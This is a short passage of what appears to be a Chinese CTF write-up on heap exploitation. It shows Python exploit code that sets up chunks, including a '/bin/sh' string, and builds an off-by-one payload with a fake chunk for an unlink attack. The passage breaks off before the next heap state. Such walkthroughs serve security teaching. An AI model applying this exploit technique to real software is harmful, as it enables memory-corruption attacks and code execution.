     data1 = play(0x108,'aaa') #1
    data2 = play(0x120,'aaa') #2
    data3 = play(0x120,'/bin/sh\x00') #3

此时堆中情况如下：

<center>![](./Images/2.4.png)</center>

在重新编辑chunk 1,在此利用off-by-one将chunk 2的size覆盖为0x100

    rank_ptr = 0x0000000000203100
    ptr = rank_ptr + 0x30
    buf = p64(0)+p64(0x101)
    buf += p64(base+ptr-0x18)+p64(base+ptr-0x10)+'a'*0xe0+p64(0x100)
    Change(1,data1,buf)

堆中情况变化如下：
